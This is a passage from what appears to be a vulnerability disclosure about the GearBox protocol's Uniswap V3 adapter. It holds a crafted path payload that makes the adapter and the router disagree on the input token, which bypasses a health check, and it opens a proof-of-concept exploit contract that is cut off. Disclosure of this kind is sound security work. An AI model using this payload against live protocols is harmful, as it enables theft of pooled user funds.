 Next, let's look at how UniSwapV3 Swap Router extract its path parameter.
https://github.com/Uniswap/v3-periphery/blob/main/contracts/SwapRouter.sol

```
// function exactOutputInternal
(address tokenOut, address tokenIn, uint24 fee) = data.path.decodeFirstPool();
```

https://github.com/Uniswap/v3-periphery/blob/main/contracts/libraries/Path.sol

```
function decodeFirstPool(bytes memory path)
        internal
        pure
        returns (
            address tokenA,
            address tokenB,
            uint24 fee
        )
    {
        tokenA = path.toAddress(0);
        fee = path.toUint24(ADDR_SIZE); // ADDR_SIZE = 20
        tokenB = path.toAddress(NEXT_OFFSET); // NEXT_OFFSET = 20 + 3 (fee) bytes
    }
```

You can see that there is the difference. UniSwapV3 SwapRouter extracts tokenOut from first 20 bytes, and tokenIn from next 23 bytes.

After spending some time thinking, I came up with payload that could trick both contracts to use different tokenIn. Here is an example

abi.encodePacked(WBTC, poolFee, WETH, DAI)

For GearBox Adapter, the tokenIn would be DAI (last 20 bytes).
For UniswapV3 Router, the tokenIn would be WETH

With this specially crafted path parameter, it allows attacker to bypass health check functionality and exploit on protocol funds.

## Exploit contract

This proof-of-concept demonstrates the bypass of health check function.

Basically, what it does is:
(1) Open credit account with 2 ethers, max leverage
(2) Approve WETH on creditAccount to be traded via SwapRouter
(3) Shift WETH price in WBTC/WETH 1.0% pool with 1000 ETH
To make WBTC more expensive when swapping (get less WBTC)
(4) Try swap with normal params, and crafted params and you can see that normal params is stuck with CF5 revert text, which is health factor error.

```
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

interface IERC20{
    function transfer(address to, uint value) external returns (bool);
    function approve(address spender, uint value) external returns (bool);
    function balanceOf(address owner) external view returns (uint);
    function allowance(address owner, address spender) external view returns (uint256);
}

interface CreditManager{
    function openCreditAccount(
        uint256 amount,
        address onBehalfOf,
        uint256 leverageFactor,
        uint256 referralCode
```